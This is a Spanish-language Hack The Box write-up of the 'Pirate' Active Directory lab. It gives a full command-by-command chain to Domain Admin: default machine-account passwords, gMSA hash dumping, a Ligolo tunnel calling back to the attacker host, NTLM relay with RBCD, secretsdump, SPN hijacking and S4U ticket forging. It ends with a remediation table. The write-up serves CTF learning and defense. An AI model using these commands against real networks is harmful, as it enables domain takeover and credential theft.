






HTB Machine Report — Pirate
Date: 2026-05-27 Author: Franksimon Platform: Hack The Box Difficulty: HARD OS: Windows (Active Directory) IP: 10.129.244.95 (DC01) / Red interna: 192.168.100.0/24 Status: Pwned
1. Executive Summary
Pirate es una máquina Windows Active Directory de dificultad Hard. El acceso inicial se logra abusando del grupo Pre-Windows 2000 Compatible Access para autenticar como MS01$ con contraseña predeterminada y dumpear el hash NTLM de gMSA_ADFS_prod$ vía CrackMapExec con Kerberos ccache, obteniendo shell WinRM en DC01. Con Ligolo-ng como pivote hacia la red interna (192.168.100.0/24), se detecta WebClient habilitado en WEB01 y se combina NTLM relay con RBCD para comprometer WEB01 como Administrator (user flag). La escalación a Domain Admin encadena ForceChangePassword sobre a.white_adm, SPN hijacking contra DC01 usando WriteSPN del grupo IT mediante addspn.py, y S4U2Proxy con -altservice para obtener un ticket host/DC01 válido contra el DC.
Cadena de ataque:
MS01$ (Pre-Win2000) → gMSA dump (CME --gmsa) → evil-winrm DC01 → Ligolo pivot
→ WebClient detection → NTLM relay + RBCD → Admin WEB01 (user flag) → secretsdump
→ ForceChangePassword → SPN hijack (addspn.py) → S4U altservice → Domain Admin
2. Enumeration
2.1 Port Scan — DC01
| Port | Service |
|---|---|
| 53/tcp | DNS |
| 80/tcp | HTTP |
| 88/tcp | Kerberos |
| 135/tcp | RPC |
| 139/tcp | NetBIOS |
| 389/tcp | LDAP |
| 443/tcp | HTTPS |
| 445/tcp | SMB |
| 464/tcp | Kerberos kpasswd |
| 593/tcp | RPC over HTTP |
| 636/tcp | LDAPS |
| 2179/tcp | vmrdp |
| 3268/tcp | Global Catalog |
| 3269/tcp | Global Catalog SSL |
| 5985/tcp | WinRM |
| 9389/tcp | AD Web Services |
Dominio: pirate.htb — DC01.pirate.htb
2.2 Pre-Windows 2000 Compatible Access → gMSA Dump
El grupo Pre-Windows 2000 Compatible Access contiene MS01$ y EXCH01$, cuentas de máquina con contraseña predeterminada (nombre en minúsculas). Con el TGT de MS01$ se puede leer msDS-ManagedPassword de cuentas gMSA.
# Obtener TGT con contraseña predeterminada
/tmp/imp/bin/getTGT.py 'pirate.htb/MS01$:ms01' -dc-ip 10.129.244.95
# [*] Saving ticket in MS01$.ccache
# Dumpear gMSA vía CME con Kerberos ccache
KRB5CCNAME=MS01$.ccache crackmapexec ldap 10.129.244.95 -u 'MS01$' -k --use-kcache --gmsa
Account: gMSA_ADCS_prod$ NTLM: 2b8849da91d5206b9d1d1dcb44467089
Account: gMSA_ADFS_prod$ NTLM: 76754c94319e3a7dc07ba09aa79028ee

Hash NTLM de gMSA_ADFS_prod$ obtenido. Esta cuenta es miembro de Remote Management Users en DC01.
Autenticación de cuentas de máquina
MS01$ no puede autenticarse contra LDAP via contraseña (workstation trust account → invalidCredentials). Obligatorio usar TGT Kerberos → --use-kcache.
3. Acceso Inicial — evil-winrm como gMSA_ADFS_prod$

Shell como pirate\gmsa_adfs_prod$ en DC01.
4. Ligolo-ng — Pivot a 192.168.100.0/24
Desde evil-winrm en DC01 se sube el agente y se establece el tunnel:
# Kali
./proxy -selfcert -laddr 0.0.0.0:11601
# DC01 (evil-winrm)
upload agent.exe
.\agent.exe -connect 10.10.14.207:11601 -ignore-cert


# Kali — activar ruta
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.100.0/24 dev ligolo

WEB01 (192.168.100.2) ahora accesible desde Kali.
5. NTLM Relay + RBCD → Admin en WEB01
WebClient Detection
Antes de intentar relay, verificar que WebClient esté activo en WEB01 (requisito para coerción via WebDAV):
WebClient habilitado → coerción via @port notation disponible.
NTLM Relay Setup
SMB signing en WEB01: enabled but not required → vulnerable a relay.
# Terminal 1 — relay a LDAPS del DC con delegación RBCD
sudo ntlmrelayx.py -t ldaps://10.129.244.95 --delegate-access --remove-mic -smb2support
# Terminal 2 — coerción de WEB01 hacia Kali
coercer coerce -l 10.10.14.207 -t 192.168.100.2 \
-d pirate.htb -u pentest -p 'p3nt3st2025!&' --always-continue

[*] Authenticating connection from PIRATE/WEB01$@10.129.244.95 against ldaps://10.129.244.95 SUCCEED
[*] Adding new computer with username: WIHDYOOD$ and password: /p/u+d2(o13llbH result: OK
[*] Delegation rights modified successfully!
[*] WIHDYOOD$ can now impersonate users on WEB01$ via S4U2Proxy
--remove-mic es obligatorio
Sin esta flag: The client requested signing. Relaying to LDAP will not work!
Obtener Shell en WEB01
# Sincronizar reloj (KRB_AP_ERR_SKEW)
sudo ntpdate -u 10.129.244.95
# 2026-05-27 04:18:06.312848 (-0600) +719.012374 +/- 0.036244 10.129.244.95 s1 no-leap
# Ticket S4U como Administrator
/tmp/imp/bin/getST.py -spn cifs/WEB01.pirate.htb -impersonate Administrator \
-dc-ip 10.129.244.95 'pirate.htb/WIHDYOOD$:/p/u+d2(o13llbH'
# [*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
# Shell en WEB01
KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache \
wmiexec.py -k -no-pass pirate.htb/Administrator@WEB01.pirate.htb
6. Post-Exploitation — WEB01
User Flag
Credential Dump
KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache \
secretsdump.py -k -no-pass pirate.htb/Administrator@WEB01.pirate.htb
LSA Secrets:
7. Privilege Escalation — Domain Admin
BloodHound
INFO: Found 5 computers, 10 users, 54 groups, 2 gpos, 1 ous, 20 containers
INFO: Compressing output into 20260527042539_bloodhound.zip
Hallazgos clave:
a.white_adm: trustedtoauth=true, AllowedToDelegate=http/WEB01.pirate.htb
ForceChangePassword
net rpc password a.white_adm 'Pirate123!' \
-U 'pirate.htb/a.white%E2nvAOKSz5Xz2MJu' -S 10.129.244.95
SPN Hijacking
a.white_adm delega a http/WEB01.pirate.htb. Al mover ese SPN de WEB01$ a DC01$ (usando el WriteSPN que IT tiene sobre DC01$), el S4U2Proxy apuntará al DC.
# Quitar SPN de WEB01$
python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
-t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' -r 10.129.244.95
# [+] SPN Modified successfully
# Inyectar SPN en DC01$
python3 /tmp/krbrelayx/addspn.py -u 'pirate\a.white_adm' -p 'Pirate123!' \
-t 'DC01$' -s 'HTTP/WEB01.pirate.htb' 10.129.244.95
# [+] SPN Modified successfully
Formato de usuario en addspn.py
Usar DOMAIN\username con backslash. Con slash / falla: Username must include a domain, use: DOMAIN\username
S4U2Proxy + altservice → Domain Admin
/tmp/imp/bin/getST.py -spn 'http/WEB01.pirate.htb' \
-altservice 'host/DC01.pirate.htb' \
-impersonate Administrator \
-dc-ip 10.129.244.95 \
'pirate.htb/a.white_adm:Pirate123!'
[*] Changing service from http/WEB01.pirate.htb@PIRATE.HTB
to host/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache
KRB5CCNAME=Administrator@host_DC01.pirate.htb@PIRATE.HTB.ccache \
wmiexec.py -k -no-pass pirate.htb/Administrator@DC01.pirate.htb
8. Root Flag
whoami → pirate\administrator en DC01. Domain Admin.
9. Remediation
| Finding | Recomendación | Prioridad |
|---|---|---|
| Pre-Win2000 cuentas activas | Quitar del grupo; rotar contraseñas | Critical |
| gMSA legible por cuentas de máquina | Auditar msDS-GroupMSAMembership | High |
| SMB signing no requerido (WEB01) | Habilitar via GPO | Critical |
| LDAP signing no requerido (DC01) | Requerir firma LDAP | Critical |
| WebClient habilitado en servidores | Deshabilitar via GPO si no es necesario | High |
| ForceChangePassword sobre cuenta admin | Auditar ACLs con BloodHound | High |
| WriteSPN de grupo IT sobre DC01 | Restringir a Domain Admins | High |
| trustedtoauth + constrained delegation | Usar gMSA para servicios | High |
10. Lessons Learned
- Pre-Win2000 Compatible Access es el vector más fácil de pasar por alto — siempre enumerar sus miembros.
- gMSA dump via CME:
MS01$no puede autenticarse con contraseña a LDAP — sólo via TGT Kerberos. Usar--use-kcacheconKRB5CCNAME. --remove-micen ntlmrelayx es obligatorio para relay a LDAPS.- WebClient detection primero:
crackmapexec smb -M webdav— sin WebClient activo la coerción vía WebDAV no funciona. - SPN hijacking: WriteSPN en un objeto de computadora permite redirigir a quién apunta una delegación existente sin tocar
msDS-AllowedToDelegateTo. Usaraddspn.pyde krbrelayx (bloodyAD y ldap3 directo fallan). -altserviceen getST.py relabelea el TGS resultante para usarlo con la herramienta correcta — wmiexec necesitahost/, evil-winrm con GSSAPI falla si/etc/krb5.confno existe o hay case mismatch en el SPN.- ntpdate: El skew era de +719 segundos. Sin sincronización, todo getST.py falla con
KRB_AP_ERR_SKEW.